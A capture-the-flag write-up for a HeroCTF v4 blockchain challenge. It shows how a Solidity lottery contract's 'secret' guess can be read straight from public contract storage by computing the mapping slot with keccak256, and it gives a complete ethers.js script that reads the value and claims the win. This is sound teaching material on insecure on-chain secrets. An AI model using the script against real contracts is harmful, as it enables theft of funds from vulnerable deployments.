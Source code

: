 ```yaml
---
title: They always think they got it
description: Computation of the slot number used to store our guess number in the contract's storage
summary: Computation of the slot number used to store our guess number in the contract's storage
date: 2022-05-30
tags:
- Blockchain
ctf:
- HeroCTF v4
draft: false
---
```


## Description

> Imagine that. Someone comes up to you in the street, and tells you  \
> <em>"Give me 10\$, and guess my number. If you do, I give you 1000000\$"</em> \
> Now the risk reward is pretty ridiculous, but so are your chances of winning. \
> Well it's the exact same here. Or is it ? Can you read thoughts ?

## Resolution

We start with a Solitidy smart contract we can ask to deploy to an address on the custom Ethereum like blockchain of the CTF. We also have a verify button used to check if we've won the lottery and give us the flag if we do.

```solidity
pragma solidity ^0.8.10;

contract onChainLotterySecuredx20000
{
   /*
    Ok, so everyone wants this "super onChain PRNG". I think i might've found a way
    */ 
    bool hasWon = false;
    mapping (address => uint256) secured_HasH2GueSs;

    constructor () payable {}

    function getPrizePool() external view returns (uint256)
    {
        return address(this).balance;
    }

    function setupMaHash() external
    {
        require(secured_HasH2GueSs[msg.sender] == 0, "Already played, think i'm a fool ?");
        uint256 shuffler = block.timestamp % 25;
        uint256 val = uint256(blockhash(block.number - shuffler)) % block.gaslimit
                      + gasleft();

        secured_HasH2GueSs[msg.sender] = val;
    }

    function trynaGuessMyhash(uint256 guessed) external
    {
        require(secured_HasH2GueSs[msg.sender] != 0, "Really...");
        require(secured_HasH2GueSs[msg.sender] == guessed);
        hasWon = true;

    }

    function verify() external view returns (bool)
    {
        return hasWon;
    }
}
```

We can only call once the `setupMaHash` function of the contract to generate our attributed guess numer. The PRNG used to compute the number itself seems pretty complicated, predicting it musn't be the purpose of this challenge.

However, recall that **everything is public on the blockchain**. We can see any value stored in the storage of any contract. We just have to know the slot of what we want to read.

As our guess number is stored in a slot of the contract's storage, and because we know the contract is written in Solidity, we can apply [Solidity's storage layout convention](https://docs.soliditylang.org/en/v0.8.13/internals/layout_in_storage.html) to know exactly what is the slot attributed to our guess.

All types except dynamically sized arrays and mappings are stored contiguously, one after the other, starting at slot 0.

Mappings and dynamically sized arrays, because their size is not fixed, are stored differently. For the mappings, which is what we're interested in for this challenge, a slot is still reserved as if the mapping was a fixed size type, but nothing is stored in this slot (the value stored here remains the default value 0).<br>
The real values in the mapping are stored using the following formula:

```
keccak256(h(k) . p)
```

Where keccak256 is a hash function of the SHA3 family, `k` is the key associated to the value, `h` is a function that pads the value to 32 bytes, `.` is the concatenation and `p` is the contiguous slot number that has been reserved for the mapping.

Because the mapping is the second variable defined in the contract, we know its reserved slot will be `1`. We also know the key of our guess number, that will be our address. We have all the informations needed to compute the slot of our guess number.

I automated the process in JavaScript with the [Ethers](https://docs.ethers.io/v5/) library.

```js
(async () => {
    const provider = new ethers.providers.Web3Provider(window.ethereum)
    await provider.send("eth_requestAccounts", []);
    const signer = provider.getSigner()

    const myAddress = "0x8112593a39Ca3a18223805e19CcFc1937f2E25c0" // feel free to send me ETH if you want to, it's my real Ethereum address :))

    // just copy paste the contract source code to Remix to retrieve its ABI
    const abi = [
        {
            "inputs": [],
            "name": "setupMaHash",
            "outputs": [],
            "stateMutability": "nonpayable",
            "type": "function"
        },
        {
            "inputs": [
                {
                    "internalType": "uint256",
                    "name": "guessed",
                    "type": "uint256"
                }
            ],
            "name": "trynaGuessMyhash",
            "outputs": [],
            "stateMutability": "nonpayable",
            "type": "function"
        },
        {
            "inputs": [],
            "stateMutability": "payable",
            "type": "constructor"
        },
        {
            "inputs": [],
            "name": "getPrizePool",
            "outputs": [
                {
                    "internalType": "uint256",
                    "name": "",
                    "type": "uint256"
                }
            ],
            "stateMutability": "view",
            "type": "function"
        },
        {
            "inputs": [],
            "name": "verify",
            "outputs": [
                {
                    "internalType": "bool",
                    "name": "",
                    "type": "bool"
                }
            ],
            "stateMutability": "view",
            "type": "function"
        }
    ]

    const contractAddress = "0x1D54b1Bb1e059cCE055d53eA62cdb096c79FFD7b"
    const contract = new ethers.Contract(contractAddress, abi, provider)
    const contractWithSigner = contract.connect(signer)

    try {
        const tx = await contractWithSigner.setupMaHash()
        console.log("Waiting for the hash setup transaction to complete...")
        await tx.wait()
    }
    catch {
        console.log("Hash already setup")
    }

    const myPaddedAddress = "0x" + "0".repeat(66 - myAddress.length) + myAddress.slice(2)
    const slot = "0".repeat(63) + "1"
    const myGuessAddress = ethers.utils.keccak256(myPaddedAddress + slot)

    const guess = parseInt(await provider.getStorageAt(contractAddress, myGuessAddress), 16)

    console.log("The guess is", guess)

    const tx = await contractWithSigner.trynaGuessMyhash(guess)
    console.log("Waiting for the unlock transaction to complete...")
    await tx.wait()

    console.log("Contract unlocked!")
})()
```

All we have to do is run this script in our browser with Metamask installed and configured for the CTF's custom blockchain (I was lazy and delegated the transactions and signatures stuff to Metamask instead of messing with Python's web3 library to do these things 100% from code).

We click on the verify button on the website and get the flag:

![](output.png)

Flag: `Hero{keccack256(Nath_The_Menace_2_Society}`